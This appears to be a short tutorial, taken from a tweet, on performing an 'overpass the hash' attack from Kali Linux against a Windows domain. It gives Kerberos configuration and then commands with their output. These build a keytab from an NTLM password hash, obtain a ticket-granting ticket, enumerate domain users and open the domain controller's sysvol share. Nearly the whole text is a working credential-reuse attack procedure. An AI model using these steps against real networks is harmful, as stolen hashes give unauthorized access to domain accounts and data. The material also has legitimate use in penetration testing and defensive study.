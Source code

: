  

Overpass the Hash with Kali
===========================

 

Source: https://twitter.com/passingthehash/status/737035748445171713

 

Make sure that \`/etc/resolv.conf\` is pointed at the Domain Controller

 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali:~# cat /etc/resolv.conf

# Generated by NetworkManager
nameserver 10.0.0.1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

 

Then set up your `/etc/krb5.conf` file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[libdefaults]
 default_realm = EXPLOITS.COM
 default_tgs_enctypes = aes256-cts aes128-cts arcfour-hmac-md5 des-cbc-md5 des-cbc-crc
 default_tkt_enctypes = aes256-cts aes128-cts arcfour-hmac-md5 des-cbc-md5 des-cbc-crc
 permitted_enctypes = aes256-cts aes128-cts arcfour-hmac-md5 des-cbc-md5 des-cbc-crc
 dns_lookup_realm = true
 dns_lookup_kdc = true
 passwd_check_s_address = false
 noaddresses = true
 udp_preference_limit = 1
 ccache_type = 3
 kdc_timesync = 0
 kdc_timesync = 0
[domain_realm]
 dc1.exploits.com = EXPLOITS.COM
 .exploits.com = EXPLOITS.COM
 exploits.com = EXPLOITS.COM
[realms]
EXPLOITS.COM = {
 kdc = dc1.exploits.com:88
 master_kdc = dc1.exploits.com:88
 kpasswd = dc1.exploits.com:464
 kpasswd_server = dc1.exploits.com:464
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

 

And you are ready to create your keys:

 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali:~# ktutil -k testkey add -p user1@EXPLOITS.COM -e arcfour-hmac-md5 -w 0c1f997a0830bbfb8167f49b1ed59d15 --hex -V 5

root@kali:~# kinit -t testkey user1@EXPLOITS.COM

root@kali:~# klist -v
Credentials cache: FILE:/tmp/krb5cc_0
        Principal: user1@EXPLOITS.COM
    Cache version: 4

Server: krbtgt@EXPLOITS.COM@EXPLOIT.COM
Client: user1@EXPLOITS.COM
Ticket etype: aes256-cts-hmac-sha1-96, kvno 2
Session key: arcfour-hmac-md5
Ticket length: 973
Auth time: May 29 17:34:06 2016
End time:  May 30 03:34:06 2016
Ticket flags: pre-authent, initial, forwardable
Addresses: addressless

root@kali:~# net rpc -k usre -S dc1.exploits.com
Administrator
Guest
krbtgt
skip
user1
user3

root@kali:~# smbclient -k //dc1.exploits.com/sysvol
OS=[Windows Server 2008 R2 Enterprise 7601 Service Pack 1] Server=[Windows Server 2008 R2 Enterprise 6.1]
smb: \>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
